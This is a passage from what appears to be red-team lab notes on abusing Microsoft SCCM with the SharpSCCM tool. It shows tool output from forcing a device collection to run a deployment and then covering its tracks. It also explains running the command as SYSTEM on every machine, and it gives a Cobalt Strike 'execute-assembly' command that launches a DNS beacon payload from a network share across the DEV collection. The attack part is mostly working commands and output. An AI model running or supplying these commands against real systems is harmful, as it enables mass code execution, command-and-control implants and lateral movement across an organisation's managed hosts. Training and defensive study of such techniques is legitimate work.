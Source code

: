 ```
[+] Forcing all members of DEV (S0100014) to retrieve machine policy and execute any new applications available
[+] Waiting 1 minute for execution to complete...

[+] Cleaning up

[+] Found the Application_4b981c0c-ccc4-4971-b6cc-ff774770be5c_S0100014_Install deployment
[+] Deleted the Application_4b981c0c-ccc4-4971-b6cc-ff774770be5c_S0100014_Install deployment
[+] Querying for deployments of Application_4b981c0c-ccc4-4971-b6cc-ff774770be5c_S0100014_Install
[+] No remaining deployments named Application_4b981c0c-ccc4-4971-b6cc-ff774770be5c_S0100014_Install were found
[+] Found the Application_4b981c0c-ccc4-4971-b6cc-ff774770be5c application

[+] Deleted the Application_4b981c0c-ccc4-4971-b6cc-ff774770be5c application
[+] Querying for applications named Application_4b981c0c-ccc4-4971-b6cc-ff774770be5c
[+] No remaining applications named Application_4b981c0c-ccc4-4971-b6cc-ff774770be5c were found

[+] Completed execution in 00:02:18.2210387
```

SharpSCCM attempts to hide the application (i.e. the command we're executing) from the GUI, but the deployment is still visible until it completes.

<figure><img src="../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

By default, the above will execute Notepad as the user currently logged into each machine.&#x20;

If a user is not logged in, then the command won't execute.&#x20;

We can force it to execute as <mark style="color:yellow;">`SYSTEM`</mark> using the <mark style="color:yellow;">`-s`</mark> parameter, this will execute on every machine regardless of whether a user is currently logged in or not.&#x20;

**As with the GPO Abuse section, we can upload and execute a DNS Beacon payload:**

```
beacon> execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe exec -n DEV -p "C:\Windows\System32\cmd.exe /c start /b \\dc-2\software\dns_x64.exe" -s --no-banner
```

<figure><img src="../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>
